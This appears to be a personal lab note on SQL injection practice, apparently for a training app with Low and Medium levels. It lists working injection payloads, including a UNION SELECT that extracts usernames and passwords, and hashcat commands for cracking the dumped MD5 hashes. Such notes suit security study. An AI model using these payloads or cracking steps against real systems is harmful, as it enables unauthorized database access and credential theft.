








 SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior. 

 https://portswigger.net/web-security/sql-injection


Low:

```1' or '1'='1```

```1' OR 1=1 -- //```
	


```1' OR 1=1 --``` Will work

```1' OR 1=1 - ```Wont work



```'UNION SELECT user, password FROM users#```



`


Medium:

Same thing but in Caido isn't working








Once you have the hashes load them into file and run hashcat: 
```hashcat -m 0 hash /usr/share/wordlists/rockyou.txt```

to view them: 
```hashcat --show hash```

